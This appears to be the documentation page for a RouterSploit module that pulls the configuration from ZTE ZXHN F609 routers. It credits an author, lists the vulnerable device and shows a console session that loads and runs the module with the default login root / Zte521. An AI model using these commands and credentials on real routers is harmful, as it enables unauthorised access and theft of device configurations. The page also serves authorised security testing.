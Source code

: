 # ZTE F609 Config Disclosure

## Description
Module exploits ZTE F609 Config Disclosure.If the target is possible to authentiate to the device.

## Authors
* devilscream # vulnerability discovery & routersploit module

## References
* [https://www.youtube.com/watch?v=YlUqPbhzJLk](https://www.youtube.com/watch?v=YlUqPbhzJLk)

## Vulnerable devices
* ZTE ZXHN F609

## Usage
```
rsf > use exploits/zte/f609_config_disclosure
rsf (ZTE F609 Config Disclosure) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. 192.168.1.1


Module options:

   Name         Current settings     Description
   ----         ----------------     -----------
   username     root                 Username to authenticate with
   password     Zte521               Password to authenticate with


rsf (ZTE F609 Config Disclosure) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (ZTE F609 Config Disclosure) > run
[*] Running module...
```
